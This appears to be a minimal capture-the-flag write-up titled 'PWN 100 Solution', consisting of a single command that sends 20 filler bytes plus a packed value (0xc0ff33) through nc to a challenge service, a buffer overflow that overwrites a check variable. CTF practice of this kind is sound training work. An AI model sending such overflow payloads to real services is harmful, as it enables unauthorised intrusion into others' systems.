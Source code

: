 # PWN 100 Solution

```
python -c "from struct import *; print('B'*20 + pack('<L', 0xc0ff33))" | nc <IP> 10001
```
